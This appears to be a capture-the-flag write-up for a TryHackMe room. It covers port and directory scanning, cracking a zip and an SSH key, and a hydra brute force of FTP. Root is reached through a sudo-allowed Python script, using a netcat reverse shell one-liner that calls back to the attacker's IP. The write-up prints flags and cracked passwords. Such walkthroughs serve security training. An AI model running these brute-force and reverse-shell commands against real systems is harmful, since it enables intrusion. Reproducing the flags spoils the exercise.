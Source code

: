 > Mnemonic | gobuster | OSINT

## export IP=10.10.29.204

# Nmap

sudo nmap -A -sC -sV -T4 -Pn -vv -p- -oN nmap/initial $IP

```
21/tcp open  ftp     syn-ack vsftpd 3.0.3
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
1337/tcp  open     ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
```

# Gobuster

sudo gobuster -u http://$IP -w /usr/share/wordlists/DirBuster-Lists/directory-list-2.3-medium.txt -t 20 -o gobuster/initial -x txt,php,py,html,js,bak,tar,zip,cgi

```
/index.html (Status: 200)
/webmasters (Status: 301)
/robots.txt (Status: 200)
```

# robots.txt

```
Allow: / 
Disallow: /webmasters/*
```

# Gobuster Webmasters

sudo gobuster -u http://$IP/webmasters -w /usr/share/wordlists/DirBuster-Lists/directory-list-2.3-medium.txt -t 20 -o gobuster/webmasters -x txt,php,py,html,js,bak,tar,zip,cgi

```
/index.html (Status: 200)
/admin (Status: 301)
/backups (Status: 301)
```

# Gobuster backups

sudo gobuster -u http://$IP/webmasters/backups -w /usr/share/wordlists/DirBuster-Lists/directory-list-2.3-medium.txt -t 20 -o gobuster/backups -x txt,php,py,html,js,bak,tar,zip,cgi

```
index.html
backups.zip
```

We get the file but it requires a password. Let's crack it using fcrackzip!

fcrackzip -D -p /snap/john-the-ripper/rockyou.txt -u backups.zip -v

`PASSWORD FOUND!!!!: pw == 00385007`

We have ftp username `ftpuser` now let's crack ftp password using hydra

hydra -l ftpuser -P /snap/john-the-ripper/rockyou.txt 10.10.29.204 ftp

`[21][ftp] host: 10.10.29.204   login: ftpuser   password: love4ever`

And we can login to FTP and now we find various directories. Looking at data-04 we have id_rsa and not.txt. In not.txt it asks james to change ftp password. Now let's crack ssh2john.

```
sudo python3 /snap/john-the-ripper/297/run/ssh2john.py id_rsa > mnemonic.txt
john --wordlist=/snap/john-the-ripper/rockyou.txt mnemonic.txt

bluelove         (id_rsa) => We got the password!!
```

And we can now log in as ssh. We have 2 files `noteforjames.txt` and `6450.txt`.

Searching for user flag. `find /home -type f -name user.txt`

```
find: ‘/home/jeff’: Permission denied
find: ‘/home/mike’: Permission denied
find: ‘/home/ftpuser’: Permission denied
find: ‘/home/condor/'VEhNe2E1ZjgyYTAwZTJmZWVlMzQ2NTI0OWI4NTViZTcxYzAxfQ=='’: Permission denied
find: ‘/home/condor/.gnupg’: Permission denied
find: ‘/home/condor/.cache’: Permission denied
find: ‘/home/condor/aHR0cHM6Ly9pLnl0aW1nLmNvbS92aS9LLTk2Sm1DMkFrRS9tYXhyZXNkZWZhdWx0LmpwZw==’: Permission denied
find: ‘/home/john’: Permission denied
find: ‘/home/alex’: Permission denied
find: ‘/home/vill’: Permission denied
```

And decoding 1st one we have user flag.

## user.txt

```
THM{a5f82a00e2feee3465249b855be71c01}
```

And decoding the 2nd one we have a link `https://i.ytimg.com/vi/K-96JmC2AkE/maxresdefault.jpg`

Now let's see what is mnemonic it is an encryption based on image. I found a tool online let's get the 6450.txt file and first let's load the image to the tool and then the list .We get the password  `pasificbell1981` .Let's try condor in ssh since he had the user.txt.

# Privilege Escalation

sudo -l

```
(ALL : ALL) /usr/bin/python3 /bin/examplecode.py
```

Looking at /bin/examplecode.py we have os.system in option 1 .Let's try to get a reverse shell.

On executing `sudo /usr/bin/python3 /bin/examplecode.py` choose option 0 then . and get a reverse shell `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.107.21 1234 >/tmp/f`. We have a shell!

# root.txt

`THM{congratulationsyoumadeithashme}`

And now we have to md5 the string inside brackets `echo -n congratulationsyoumadeithashme | md5sum`

```
THM{2a4825f50b0c16636984b448669b0586}
```